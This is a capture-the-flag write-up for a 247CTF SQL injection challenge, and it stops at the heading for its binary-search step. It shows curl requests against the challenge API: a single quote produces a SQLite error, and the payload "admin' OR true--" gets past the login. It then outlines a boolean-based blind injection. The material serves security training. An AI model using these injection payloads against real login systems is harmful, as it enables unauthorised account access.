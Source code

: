 # THE FLAG API KEY [HARD]

## Description

> We created an API service which has a few endpoints. Can you use the API to figure out the admin user’s password? The admin user’s password uses the same character set and length as the flag (32-HEX).

## Source Code

No source code.
Instead, API Documentation is provided in this challenge.

![api_documentation.png](img/api_documentation.png)

## Short Solution Description / Tags

SQL Injection with limited attempts

## SQLi Detection

```console
$ curl -s https://2956d8202a6efc07.247ctf.com//api/get_token
{"message":"The API key has been reset to a25a6ff34cb3aeff3fd1966e18f2a472!","result":"success"}

$ curl -s https://2956d8202a6efc07.247ctf.com//api/login -d "username=admin" -d "password=" -d "api=a25a6ff34cb3aeff3fd1966e18f2a472"
{"message":"Invalid username and password!","result":"invalid"}

$ curl -s https://2956d8202a6efc07.247ctf.com//api/login -d "username=admin'" -d "password=" -d "api=a25a6ff34cb3aeff3fd1966e18f2a472"
{"message":"SQLite error!","result":"error"}
```

By appending single quote to username, the message was changed from `Invalid username and password!` to `SQLite error!`.

```console
$ curl -s https://2956d8202a6efc07.247ctf.com//api/login -d "username=admin' OR true--" -d 'password=' -d 'api=a25a6ff34cb3aeff3fd1966e18f2a472'
{"message":"Welcome back admin' OR true--!","result":"success"}
```

The login was successful with username is `admin' OR true--`.
However, the input username is directly output so we can only identify the success or failure of the SQL query.
Therefore, it seems impossible to use `UNION SELECT` payload to directly get records in a table.
Instead, Boolean-based SQLi is useful.

## SQLi with Binary Search
